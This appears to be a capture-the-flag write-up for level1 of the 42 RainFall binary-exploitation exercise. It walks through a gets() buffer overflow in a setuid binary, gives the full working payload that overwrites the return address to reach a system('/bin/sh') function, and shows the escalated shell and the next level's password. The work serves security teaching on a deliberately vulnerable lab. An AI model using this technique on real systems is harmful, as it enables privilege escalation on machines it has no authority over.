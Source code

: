 # Level1
  
List the files will show us 'level1' executable
```
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
level1@RainFall:~$
```
The program wait an input and quit after press enter
```
level1@RainFall:~$ ./level1
a
level1@RainFall:~$ ./level1 test
423
level1@RainFall:~$
```
After analyze it with gdb we can see that there is two principal function : `main` and `run`.  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-RainFall/blob/main/level1/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-RainFall/blob/main/level1/source.c) for more details.  
The `run` function use `fwrite` to display "Good... Wait what?\n" in the standard output stream (stdout). Then execute the shell command `/bin/sh` using `system`.  
The `main` function uses gets to receive user input who is vunerable to buffer overflow exploit.  
<br/>

By overwriting the RET value with the address of run() we can force its execution.  
Let's try to get the offset of `eip` with the pattern generator :  
```
level1@RainFall:~$ python -c 'print "a" * 80' > /tmp/exploit
level1@RainFall:~$ gdb ./level1 
(gdb) r < /tmp/exploit
Starting program: /home/user/level1/level1 < /tmp/exploit

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
(gdb)
```
We found an offset of 76. Let's build our exploit :  
input = padding (76 bytes) + address of `run()`  
Address of the `run()` function : 0x08048444 (don't forget to reverse for little-endian).
```
level1@RainFall:~$ python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit
level1@RainFall:~$ cat /tmp/exploit | ./level1
Good... Wait what?
Segmentation fault (core dumped)
level1@RainFall:~$
```
But as we need to execute this through a pipe, `/bin/sh` is non-interactive and will automatically shutdown because it will try to read stdin and will see EOF. It exits, because that's what programs that get EOF on input are supposed to do.  
We have a little trick with cat to keep stdin open, so `/bin/sh` will keep listening to stdin and execute whatever is sent through it.  
*[Open a shell from a pipelined process](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process) *
```
level1@RainFall:~$ cat /tmp/exploit - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
^C
Segmentation fault (core dumped)
level1@RainFall:~$ su level2
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
level2@RainFall:~$
```
Level1 passed!
